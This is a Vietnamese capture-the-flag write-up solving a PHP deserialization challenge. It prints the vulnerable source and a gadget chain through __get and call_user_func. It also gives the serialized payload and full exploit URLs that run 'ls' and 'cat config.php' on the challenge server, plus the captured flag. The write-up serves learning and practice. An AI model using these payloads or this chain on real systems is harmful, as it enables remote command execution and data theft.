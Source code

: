 # Bài tập 1 - Nhóm bài tập

##
### Team: Acceleration

### Link bài tập: [http://45.122.249.68:10001/](http://45.122.249.68:10001/)
##

Bước đầu truy cập vào link, ta nhận được một file php của server

```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```

Phần code gồm 3 class và phần if phía dưới, ta phân tích phần if phía dưới

```php
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```

Ta thấy rằng server lấy dữ liệu từ biến code, và tiến hành unserialize, vậy đây là lỗi php deserialization, ta sẽ lợi dụng việc deserialization để thay đổi các object

Nhìn vào class `Show_color`, ta thấy trong class này có hàm `__destruct()` sẽ được tự động gọi khi hủy đối tượng, trong đó gọi đến `call_user_func($this->type->adu,$this->color)`
hàm này nếu ta control được 2 đối số truyền vào, ta có thể thực thi lệnh hệ thống, ví dụ ta có thể thực thi `system('ls')` bằng `call_user_func('system','ls')`

```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

Vậy bây giờ ta cần tìm cách để gán 2 tham số vào, ta nhận thấy tham số thứ 2 đến từ `$this->color`, ta dễ dàng thay đổi vì chúng được unserialize từ dữ liệu ta đưa vào biến `code`, còn tham số đầu tiên dùng truy vấn
`$this->type->adu`, như vậy ta phải thay `$this->type` bằng một `object` mà `object->adu = 'system'`

Trong 3 class trong source code không có class nào có thuộc tính `adu` cả, tuy nhiên ta để ý class `do_nothing` có một magic method `__get()`

```php
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
```

Với magic method `__get()` này thì các truy vấn như `object->adu` sẽ không truy vấn trực tiếp đến biến `adu` trong class nữa mà sẽ được truyền vào hàm `__get($method)` với `$method = 'adu'`

Nhìn vào hàm `__get($method)`, ta nhận thấy nếu biến `$this->why` được set giá trị thì hàm sẽ luôn trả về `$this->i_use_this` bất kể giá trị `$method` có là gì, vậy ta chỉ cần thay
`$this->type` ở class `Show_color` là một object thuộc class `do_nothing` với tham số `$this->why = 1` và `$this->i_use_this = 'system'` (tham số `$this->why` được set tùy ý)

Như vậy khi hủy đối tượng thuộc class `Show_color`, server gọi hàm `call_user_func($this->type->adu,$this->color)` với `$this->type->adu = $this->type->i_use_this = 'system'` và `$this->color = 'ls'`

Ta sử dụng code sau để unserialize đối tượng

```php
<?php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
    public function __destruct(){
        call_user_func($this->type->adu,$this->color);
    }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
$a = new do_nothing(1, 'system');
$b = new Show_color($a, 'ls');
echo serialize($b);
?>
```

Chạy thử, ta nhận được chuỗi serialize là `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`

![](images/1.png)

Thay vào biến code trên link [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})

![](images/2.png)

Ta thấy trong system có 2 file là `index.php` (file đang chạy) và `config.php`

Sử dụng cách cũ nhưng lần này ta thử thay lệnh 'ls' bằng lệnh 'cat config.php' thử

serialize: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`

link: [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})

Ta nhận được một trang trắng tinh, nhưng kiểm tra source, ta tìm được flag

![](images/3.png)

flag: `flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}`

